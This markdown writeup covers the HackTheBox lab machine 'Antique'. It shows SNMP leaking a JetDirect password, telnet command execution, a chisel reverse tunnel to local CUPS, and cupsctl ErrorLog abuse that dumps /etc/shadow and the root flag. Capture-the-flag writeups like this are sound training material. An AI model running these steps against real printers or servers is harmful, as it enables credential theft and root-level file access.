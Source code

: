 ```yaml
---
title: Antique writeup
date: 2022-06-17 12:00:00 +0200
categories: [Writeup, HackTheBox]
tags: [HackTheBox, Writeup, Easy-box]
img_path: /assets/img/boxes/antique/
toc: true
image:
  src: Antique.png
  width: 1000   # in pixels
  height: 400   # in pixel
---
```

## Summary
This box is centered around exploiting a misconfigured HP JetDirect printer via snmp. It also covers port forwarding an exploiting the [CUPS](https://en.wikipedia.org/wiki/CUPS) service, which is a modular printing service for Unix-like computer systems. Let's take a look!

## Foothold
starting an nmap scan, we see a telnet service on port 23. It says something about HP jetdirect when trying to connect to it via telnet.

we also do a UDP scan on the address, with the -sU tag. This takes a while

The only port open and unfiltered besides telnet is 161/udp:
```console 
# Nmap 7.92 scan initiated Sat Jun 11 00:39:54 2022 as: nmap -sU -sC -sV -o nmap/udp.txt 10.129.71.148
Nmap scan report for 10.129.71.148
Host is up (0.025s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT      STATE         SERVICE VERSION
68/udp    open|filtered dhcpc
161/udp   open          snmp    SNMPv1 server (public)
40441/udp open|filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 11 00:59:53 2022 -- 1 IP address (1 host up) scanned in 1198.94 seconds
```

running `snmpwalk -v 1 -c public $IP` reveals its a printer named HTB Printer. Since the only available entrypoint seems to be this printer, we better find out how to exploit it. [This](http://www.irongeek.com/i.php?page=security/networkprinterhacking) blogpost goes into a lot of detail on how exploit a HP jetdicrect printer which has not been configured correctly. Basically, if the right string is sent to the printer it will respond with its own password.

This can be exploited with the following command:
```console
snmpwalk -v 1 -c public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
```
This returns some hexcodes. decoding this shows a password:
P@ssw0rd@123!!123

Log in to the telnet service with this password

Once logged in to the telnet service, the `exec id` command can be used to find who we are connected as. We can see that we are the user lp, within the lpadmin group. To get a reverse shell, simply prepend exec to any reverse shell payload you want to use. Most should work.

userflag:f48580e6c8557d0426e3413517504121

## Privilege escalation
we run `ss --tulnp` and get the following:

```console
lp@antique:~$ ss -tulnp
ss -tulnp
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                      
udp     UNCONN   0        0                0.0.0.0:161           0.0.0.0:*                                                                                      
tcp     LISTEN   0        128              0.0.0.0:23            0.0.0.0:*       users:(("python3",pid=1150,fd=3))                                              
tcp     LISTEN   0        4096           127.0.0.1:631           0.0.0.0:*                                                                                      
tcp     LISTEN   0        4096               [::1]:631              [::]:*                                                                                      
lp@antique:~$ 
```
the interesting part of this output is that the machine is listening on port 631 since this port did not show up on our scans.
I will use chisel to set up a listening port on my machine which i can then use to communicate with port 631 on the target machine

on the attacker machine we run the following command: `./chisel server --reverse -p 8000`

on the victim machine: `./chisel client 10.10.17.182:8000 R:8001:127.0.0.1:631`


output of chisel server once connection has been esablished:
```console
./chisel server --reverse -p 8000
2022/06/11 01:27:02 server: Reverse tunnelling enabled
2022/06/11 01:27:02 server: Fingerprint gV7xDnh1btaUqoCrX8/mA9qgIZzsnrA2m1TEsRKLmO0=
2022/06/11 01:27:02 server: Listening on http://0.0.0.0:8000
2022/06/11 01:30:19 server: session#1: tun: proxy#R:8001=>631: Listening
```
when visiting localhost:8001 in our browser we get greeted with the following page
![Cups service landing page](port631.png){: width="972" height="589" }

searching for exploits in cups 1.6.1 leads us to the following link <https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/>

We can read files as root through the error log page on cups through the error log path.

To change the path we need to use cupsctl. See below

```console
p@antique:~$ cupsctl 'ErrorLog'=/etc/shadow
cupsctl 'ErrorLog'=/etc/shadow
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   999  100   999    0     0   975k      0 --:--:-- --:--:-- --:--:--  975k
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
---SNIP---
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
```

We can of course crack the root hash and login as root, however we can also just change the error log path to /root/root.txt and read the root flag:

```console
lp@antique:~$ cupsctl "ErrorLog"=/root/root.txt
cupsctl "ErrorLog"=/root/root.txt
lp@antique:~$ curl http://localhost:631/admin/log/error_log?
curl http://localhost:631/admin/log/error_log?
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    33  100    33    0     0  33000      0 --:--:-- --:--:-- --:--:-- 33000
41a5b5db9f352acb5da454924de84bea
lp@antique:~$ 
```